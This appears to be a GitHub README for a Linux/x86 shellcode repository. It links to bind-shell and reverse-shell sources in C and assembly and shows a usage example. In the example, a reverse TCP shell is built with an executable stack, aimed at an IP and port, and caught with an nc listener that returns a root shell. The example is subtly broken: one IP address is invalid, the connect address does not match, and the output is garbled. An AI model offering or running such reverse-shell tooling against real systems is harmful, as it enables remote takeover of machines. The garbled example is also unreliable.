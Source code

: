 # Linux-x86
## Linux/x86 - Shell (/bin/sh)



<div align="center" style="font-size:30px">

# ***Tree***
 ---
#  Linux-x86
#     ╔═════════╩═════════╗
#  [Bind-Shellcode](Bind-Shellcode/README.md)&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;[Reverse-Shell](Reverse-Shell/README.md) 
#   ╔══════╩══════╗&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;╔══════╩══════╗
## [Bind-Shellcode.c](Bind-Shellcode/Bind-Shellcode.c)&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160; [Bind-Shellcode.asm](Bind-Shellcode/Bind-Shellcode.asm)    &#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;[Reverse-Shell.c](Reverse-Shell/Reverse-Shell.c)&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160; [Reverse-Shell.asm](Reverse-Shell/Reverse-Shell.asm) 
</div>

---

# [Bind-Shellcode](Bind-Shellcode/README.md)

# Linux-x86/Bind-Shellcode
---

# [Reverse-Shell](Reverse-Shell/README.md)

# Linux-x86/Reverse-Shell

        Linux/x86 Reverse TCP Shell with dynamic IP and port binding Shellcode (tested on Ubuntu 12.04 LTS)
        Usage: gcc -z execstack -o shell_reverse_tcp shell_reverse_tcp.c
        $ ./shell_reverse_tcp_shellcode 192.168.1.286 4443
        Connecting to 192.168.1.198 (0xec01a8c0):4443 (0x115c)
        Byte 26: c0
        Byte 27: a8
        Byte 28: 01
        Byte 29: ec
 
        $ nc -nlv 4443
        Listening on 0.0.0.0 4443
        Connection received on 192.168.1.286 45219
        id
        uid=0(root) gid=0(root) groups=0(root)es)
